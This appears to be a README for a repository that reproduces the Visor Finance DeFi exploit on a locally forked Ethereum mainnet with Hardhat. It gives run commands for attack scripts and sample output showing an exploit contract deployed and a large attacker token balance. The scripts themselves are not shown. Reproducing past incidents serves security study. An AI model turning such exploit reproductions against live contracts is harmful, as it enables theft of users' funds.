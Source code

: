 # Visor exploit

## How to run

Install nodejs/yarn first

Set up the `forking url` (in `hardhat.config.js`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
yarn install
yarn hardhat run scripts/attack.js
```
You will see similar output later
```
Exploit contract deployed to: 0x720472c8ce72c2A2D711333e064ABD3E6BbEAdd3
Exploiting... transcation: 0xacbb306938a1746da161700ea9a76ffd0f0a5c749dd543f8572aef34b2b94ab7
exploit complete
Attacker vVISR balance:97624975.48181573
```
This means the attack is complete
> The block height of the fork is 13849006

If you want to test another vulnerability, run
```bash
yarn hardhat run scripts/attack2.js
```
## link

* https://twitter.com/VisorFinance/status/1473306777131405314
